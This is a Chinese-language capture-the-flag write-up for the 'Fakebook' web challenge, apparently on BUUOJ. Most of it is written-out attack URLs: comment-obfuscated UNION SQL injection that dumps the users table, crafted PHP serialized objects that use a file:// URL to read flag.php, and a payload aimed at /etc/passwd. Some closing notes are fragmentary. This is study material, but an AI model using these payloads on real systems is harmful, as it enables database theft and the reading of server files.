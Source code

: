 # Fakebook

考点：SQL 注入、源码泄漏、反序列化

### 信息搜集

* 登陆注册
* 注册需要输入博客 URL（联想到 SSRF）
* view.php 可以注入
* 存在 user.php.bak
* 存在 flag.php
* 页面会报错，WEB目录为 /var/www/html/

### 利用

1. 通过注入拿到数据库中的数据
2. [http://1eb82f8a-5494-47fc-88af-8bdd6e607c1f.node3.buuoj.cn/view.php?no=0/\*\*/unIon/\*\*/seleCt/\*\*/33,group\_concat\(table\_name\),55,66 from information\_schema.tables where table\_schema=database\(\)%23](http://1eb82f8a-5494-47fc-88af-8bdd6e607c1f.node3.buuoj.cn/view.php?no=0/**/unIon/**/seleCt/**/33,group_concat%28table_name%29,55,66%20from%20information_schema.tables%20where%20table_schema=database%28%29%23)

users

* [http://1eb82f8a-5494-47fc-88af-8bdd6e607c1f.node3.buuoj.cn/view.php?no=0/\*\*/unIon/\*\*/seleCt/\*\*/33,group\_concat\(column\_name\),55,66 from information\_schema.columns limit 0,10%23](http://1eb82f8a-5494-47fc-88af-8bdd6e607c1f.node3.buuoj.cn/view.php?no=0/**/unIon/**/seleCt/**/33,group_concat%28column_name%29,55,66%20from%20information_schema.columns%20limit%200,10%23)

no,username,passwd,data

* [http://1eb82f8a-5494-47fc-88af-8bdd6e607c1f.node3.buuoj.cn/view.php?no=0/\*\*/unIon/\*\*/seleCt/\*\*/33,concat\_ws\(no,%27\|%27,username,%27\|%27,passwd,%27\|%27,data\),55,66 from users%23](http://1eb82f8a-5494-47fc-88af-8bdd6e607c1f.node3.buuoj.cn/view.php?no=0/**/unIon/**/seleCt/**/33,concat_ws%28no,%27|%27,username,%27|%27,passwd,%27|%27,data%29,55,66%20from%20users%23)
* 发现存在序列化的数据

```text
O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:3;s:4:"blog";s:16:"http://baidu.com";}
```

猜测该页面会把查询出来的内容进行反序列化 因此我们为了读取 flag，可以直接通过注入构造一个序列化的数据

```text
O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:3;s:4:"blog";s:16:"file:///var/www/html/flag.php";}
```

```text
http://1eb82f8a-5494-47fc-88af-8bdd6e607c1f.node3.buuoj.cn/view.php?no=0/**/unIon/**/seleCt/**/33,44,55,%27O:8:%22UserInfo%22:3:{s:4:%22name%22;s:1:%221%22;s:3:%22age%22;i:3;s:4:%22blog%22;s:29:%22file:///var/www/html/flag.php%22;}%27
```

### 非预期

直接使用注入点读取 flag

[http://1eb82f8a-5494-47fc-88af-8bdd6e607c1f.node3.buuoj.cn/view.php?no=0/\*\*/unIon/\*\*/seleCt/\*\*/1,load\_file\(%27/var/www/html/flag.php%27\),3,4%23](http://1eb82f8a-5494-47fc-88af-8bdd6e607c1f.node3.buuoj.cn/view.php?no=0/**/unIon/**/seleCt/**/1,load_file%28%27/var/www/html/flag.php%27%29,3,4%23)

[http://f9d6421e-4a3e-4d96-a24b-d22ecaf15cce.node3.buuoj.cn/view.php?no=2/\*\*/union/\*\*/select/\*\*/1,group\_concat\(table\_name\),3,4/\*\*/from/\*\*/information\_schema.tables/\*\*/where/\*\*/table\_schema=database\(\)/\*\*/order/\*\*/by/\*\*/1/\*\*/%23](http://f9d6421e-4a3e-4d96-a24b-d22ecaf15cce.node3.buuoj.cn/view.php?no=2/**/union/**/select/**/1,group_concat%28table_name%29,3,4/**/from/**/information_schema.tables/**/where/**/table_schema=database%28%29/**/order/**/by/**/1/**/%23)

[http://f9d6421e-4a3e-4d96-a24b-d22ecaf15cce.node3.buuoj.cn/view.php?no=2/\*\*/union/\*\*/select/\*\*/1,group\_concat\(column\_name\),3,4/\*\*/from/\*\*/information\_schema.columns/\*\*/where/\*\*/table\_name='users'/\*\*/order/\*\*/by/\*\*/1/\*\*/%23](http://f9d6421e-4a3e-4d96-a24b-d22ecaf15cce.node3.buuoj.cn/view.php?no=2/**/union/**/select/**/1,group_concat%28column_name%29,3,4/**/from/**/information_schema.columns/**/where/**/table_name='users'/**/order/**/by/**/1/**/%23)

blog, no,username,passwd,data

[http://f9d6421e-4a3e-4d96-a24b-d22ecaf15cce.node3.buuoj.cn/view.php?no=2/\*\*/union/\*\*/select/\*\*/1,concat\_w,3,4/\*\*/from/\*\*/information\_schema.columns/\*\*/where/\*\*/table\_name='users'/\*\*/order/\*\*/by/\*\*/1/\*\*/%23](http://f9d6421e-4a3e-4d96-a24b-d22ecaf15cce.node3.buuoj.cn/view.php?no=2/**/union/**/select/**/1,concat_w,3,4/**/from/**/information_schema.columns/**/where/**/table_name='users'/**/order/**/by/**/1/**/%23)

file:///

O:8:"UserInfo":3:{s:4:"name";s:3:"wyh";s:3:"age";i:1;s:4:"blog";s:16:"file:///etc/passwd";}

php 序列化数据

